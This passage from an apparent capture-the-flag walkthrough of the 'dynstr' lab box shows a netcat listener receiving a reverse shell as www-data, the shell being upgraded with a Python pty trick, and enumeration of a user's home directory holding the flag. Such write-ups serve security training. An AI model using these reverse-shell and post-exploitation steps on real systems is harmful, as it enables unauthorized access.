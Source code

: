 It hangs, but at a listening `nc`, there’s a shell as www-data (as expected):

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.244] 37680
bash: cannot set terminal process group (716): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dynstr:/var/www/html/nic$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll upgrade the shell using the standard trick with Python:

```

www-data@dynstr:/var/www/html/nic$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
www-data@dynstr:/var/www/html/nic$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@dynstr:/var/www/html/nic$

```

## Shell as bindmgr

### Enumeration

#### Users

There are two users on the box:

```

www-data@dynstr:/home$ ls
bindmgr  dyna

```

There isn’t much interesting in `dyna`. `bindmgr` has `user.txt`, and a directory:

```

www-data@dynstr:/home/bindmgr$ ls -la
total 36
drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15 20:39 .
drwxr-xr-x 4 root    root    4096 Mar 15 20:26 ..
lrwxrwxrwx 1 bindmgr bindmgr    9 Mar 15 20:29 .bash_history -> /dev/null
-rw-r--r-- 1 bindmgr bindmgr  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bindmgr bindmgr 3771 Feb 25  2020 .bashrc
drwx------ 2 bindmgr bindmgr 4096 Mar 13 12:09 .cache
-rw-r--r-- 1 bindmgr bindmgr  807 Feb 25  2020 .profile
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 12:09 .ssh
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 14:53 support-case-C62796521
-r-------- 1 bindmgr bindmgr   33 Jun  9 11:50 user.txt

```

